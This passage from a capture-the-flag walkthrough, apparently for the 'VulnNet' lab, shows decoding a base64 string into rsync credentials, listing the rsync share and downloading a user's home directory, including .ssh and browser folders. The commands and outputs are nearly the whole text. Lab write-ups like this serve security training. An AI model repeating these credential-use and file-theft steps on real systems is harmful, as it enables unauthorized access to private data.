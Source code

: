 `echo 'QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==' | base64 -d`

```powershell
Authorization for rsync://rsync-connect@127.0.0.1 with password
Hcg3HP67@TW@Bc72v
```

> **Remote Synchronization (RSYNC) Enumeration**
> 

`rsync -av --list-only rsync://vulnnet.thm:873`

```powershell
files           Necessary home interaction
```

`mkdir -p rsyncthm/thm`

`rsync -av rsync://rsync-connect@vulnnet.thm:873/files ./rsyncthm/thm`

```powershell
Password: Hcg3HP67@TW@Bc72v

receiving incremental file list
./
sys-internal/
sys-internal/.Xauthority
sys-internal/.bash_history -> /dev/null
sys-internal/.bash_logout
sys-internal/.bashrc
sys-internal/.dmrc
sys-internal/.profile

[REDACTED] - MORE
```

`ls -lsa rsyncthm/thm/sys-internal`

```powershell
4 drwxr-xr-x 18 kali lxd  4096 Feb  6  2021 .
4 drwxr-xr-x  3 root root 4096 Feb  1  2021 ..
4 -rw-------  1 kali lxd    61 Feb  6  2021 .Xauthority
0 lrwxrwxrwx  1 root root    9 Feb  1  2021 .bash_history -> /dev/null
4 -rw-r--r--  1 kali lxd   220 Feb  1  2021 .bash_logout
4 -rw-r--r--  1 kali lxd  3771 Feb  1  2021 .bashrc
4 drwxrwxr-x  8 kali lxd  4096 Feb  2  2021 .cache
4 drwxrwxr-x 14 kali lxd  4096 Feb  1  2021 .config
4 drwx------  3 kali lxd  4096 Feb  1  2021 .dbus
4 -rw-r--r--  1 kali lxd    26 Feb  1  2021 .dmrc
4 drwx------  3 kali lxd  4096 Feb  1  2021 .gnupg
4 drwxrwxr-x  3 kali lxd  4096 Feb  1  2021 .local
4 drwx------  5 kali lxd  4096 Feb  1  2021 .mozilla
4 -rw-r--r--  1 kali lxd   807 Feb  1  2021 .profile
0 lrwxrwxrwx  1 root root    9 Feb  2  2021 .rediscli_history -> /dev/null
4 drwxrwxr-x  2 kali lxd  4096 Feb  6  2021 .ssh
0 -rw-r--r--  1 kali lxd     0 Feb  1  2021 .sudo_as_admin_successful
4 drwx------  4 kali lxd  4096 Feb  2  2021 .thumbnails
4 -rw-r--r--  1 kali lxd    14 Feb 12  2018 .xscreensaver
4 -rw-------  1 kali lxd  2546 Feb  6  2021 .xsession-errors
4 -rw-------  1 kali lxd  2546 Feb  6  2021 .xsession-errors.old
4 drwx------  2 kali lxd  4096 Feb  1  2021 Desktop
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Documents
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Downloads
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Music
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Pictures
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Public
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Templates
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Videos
```